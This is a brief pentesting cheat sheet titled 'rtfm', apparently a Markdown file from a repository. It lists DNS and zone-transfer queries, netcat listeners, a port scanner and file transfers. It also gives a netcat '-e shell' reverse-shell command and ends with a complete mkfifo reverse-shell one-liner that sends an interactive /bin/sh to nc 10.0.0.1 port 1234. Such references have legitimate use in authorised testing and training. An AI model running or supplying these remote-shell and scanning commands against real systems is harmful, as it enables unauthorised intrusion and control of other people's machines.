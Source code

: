 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
    <td>ask the name servers for a domain</td>
  </tr>
  <tr>
    <td>host -l <i>domain nameServer</i></td>
    <td>dns zone transfer</td>
  </tr>
  <tr>
    <td>nc <i>ip port</i> -e <i>shell</i></td>
    <td>start reverse shell: cmd.exe, /bin/sh</td>
  </tr>
  <tr>
    <td>nc -l -p <i>port</i></td>
    <td>start listener</td>
  </tr>
  <tr>
    <td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</i></td>
    <td>tcp port scanner</td> 
  </tr>
  <tr>
    <td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</i></td>
    <td>file transfers</td>
  </tr>
</table>


```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTY5MTM4Njc5MCwyMTg5MDE2ODQsLTE3Mj
I0NTA0MDMsLTE5NjY1ODg1MTVdfQ==
-->